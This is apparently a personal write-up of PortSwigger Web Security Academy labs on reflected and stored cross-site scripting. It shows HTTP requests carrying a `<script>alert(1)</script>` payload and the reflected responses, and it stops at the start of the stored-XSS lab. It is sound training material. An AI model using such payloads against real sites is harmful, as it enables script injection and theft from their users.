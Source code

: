 # XSS (Cross Site Scripting)

## Lab: Reflected XSS into HTML context with nothing encoded

This lab contains a simple reflected cross-site scripting vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the alert function. 

When first searching for the XSS I immedietely came across a search bar which is a common target due to the reflected nature of the users search term. After confirming my search term was reflected I tried a generic `<script>alert(1)</script>` which produced the required alert.

```
GET /?search=test HTTP/1.1
Host: 0a58002404a6303cc0621de20057005b.web-security-academy.net
...


```

```
...
<section class=blog-header>
     <h1>0 search results for 'test'</h1>
     <hr>
</section>
...

```


```
GET /?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E HTTP/1.1
Host: 0a58002404a6303cc0621de20057005b.web-security-academy.net
...
```


```
<section class=blog-header>
        <h1>0 search results for '<script>alert(1)</script>'</h1>
    <hr>
</section>

```


## Lab: Stored XSS into HTML context with nothing encoded

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed. 

I used the below request to exploit the xss.
